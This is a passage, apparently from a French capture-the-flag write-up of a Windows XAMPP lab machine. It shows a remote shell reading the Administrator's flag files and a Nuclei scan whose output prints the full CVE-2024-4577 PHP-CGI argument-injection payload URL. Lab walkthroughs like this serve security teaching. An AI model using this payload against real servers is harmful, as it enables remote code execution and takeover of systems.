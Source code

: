 ```console

 Directory of c:\users\Administrator\Desktop

12/02/2025  09:25    <DIR>          .
11/12/2024  09:45    <DIR>          ..
12/02/2025  09:25                33 root.txt
12/02/2025  09:25                33 user.txt
               2 File(s)             66 bytes
               2 Dir(s)  55?328?358?400 bytes free
Shell> type c:\\users\\Administrator\\Desktop\\user.txt
4dcd00d9b6c66a0eae4a30aa0c781406
Shell> type c:\\users\\Administrator\\Desktop\\root.txt
af70e9322a562983e01a250ca84fe28d
```

Le serveur tournant avec les droits système (classique avec des kits tout faits comme XAMPP), on a déjà tout ce qu'il nous faut.

Sans l'indice, on aurait pu trouver la vulnérabilité avec Nuclei :

```console
$ nuclei -u http://192.168.242.131/

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.0.3

                projectdiscovery.io

[INF] Your current nuclei-templates v9.5.2 are outdated. Latest is v10.2.0
[INF] Successfully updated nuclei-templates (v10.2.0). GoodLuck!
[WRN] Found 1 templates with runtime error (use -validate flag for further examination)
[INF] Current nuclei version: v3.0.3 (outdated)
[INF] Current nuclei-templates version: v10.2.0 (latest)
[INF] New templates added in latest release: 268
[INF] Templates loaded for current scan: 9552
[INF] Executing 9520 signed templates from projectdiscovery/nuclei-templates
[WRN] Executing 55 unsigned templates. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1763 (Reduced 1662 Requests)
[INF] Using Interactsh Server: oast.live
[CVE-2024-4577] [http] [critical] http://192.168.242.131/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:content-security-policy] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:x-frame-options] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:x-content-type-options] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:clear-site-data] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:strict-transport-security] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:permissions-policy] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:referrer-policy] [http] [info] http://192.168.242.131/dashboard/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://192.168.242.131/dashboard/
[http-trace:trace-request] [http] [info] http://192.168.242.131/
```